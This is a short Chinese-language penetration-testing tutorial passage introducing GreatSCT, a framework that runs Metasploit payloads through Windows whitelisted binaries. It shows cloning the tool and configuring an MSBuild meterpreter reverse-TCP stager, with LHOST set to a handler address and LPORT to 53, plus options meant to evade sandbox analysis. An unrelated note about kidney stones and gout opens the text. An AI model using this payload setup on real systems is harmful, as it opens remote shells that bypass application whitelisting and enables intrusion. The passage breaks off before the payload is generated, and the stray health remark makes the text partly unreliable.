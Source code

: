 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

工具介绍：  
https://github.com/GreatSCT/GreatSCT

### 简介：  

GreatSCT 是以 metasploit payload 为核心，白名单辅助 payload 执行框架。
```bash
root@John:~# git clone https://github.com/GreatSCT/GreatSCT.git
Cloning into 'GreatSCT'...
remote: Enumerating objects: 727, done.
remote: Total 727 (delta 0), reused 0 (delta 0), pack‐reused 727
Receiving objects: 100% (727/727), 10.64 MiB | 572.00 KiB/s, done.
Resolving deltas: 100% (384/384), done.
```  
![](media/4b7b7364cadb4717086ebb5019db21cd.jpg)

![](media/3e2f95599ea725fbaf324c19d0844ac7.jpg)

![](media/9e50f5e8220ad366afb664445e12f567.jpg)

![](media/60d66478b636b2723607a4b90056e4a8.jpg)

```bash
===========================================================================
Great Scott!
===========================================================================
[Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===========================================================================

Payload information: 

Name: Pure MSBuild C# Reverse TCP Stager
Language: msbuild
Rating: Excellent
Description: pure windows/meterpreter/reverse_tcp stager, no
shellcode 

Payload: msbuild/meterpreter/rev_tcp selected 

Required Options: 

Name Value Description
‐‐‐‐ ‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
DOMAIN X Optional: Required internal domain
EXPIRE_PAYLOAD X Optional: Payloads expire after "Y" days
HOSTNAME X Optional: Required system hostname
INJECT_METHOD Virtual Virtual or Heap
LHOST IP of the Metasploit handler
LPORT 4444 Port of the Metasploit handler
PROCESSORS X Optional: Minimum number of processors
SLEEP X Optional: Sleep "Y" seconds, check if accelerated
TIMEZONE X Optional: Check to validate not in UTC
USERNAME X Optional: The required user account

Available Commands: 

back Go back
exit Completely exit GreatSCT
generate Generate the payload
options Show the shellcode's options
set Set shellcode option 

[msbuild/meterpreter/rev_tcp>>] set LHOST 192.168.1.4 41

[msbuild/meterpreter/rev_tcp>>] set LPORT 53 
```
>   Micropoor
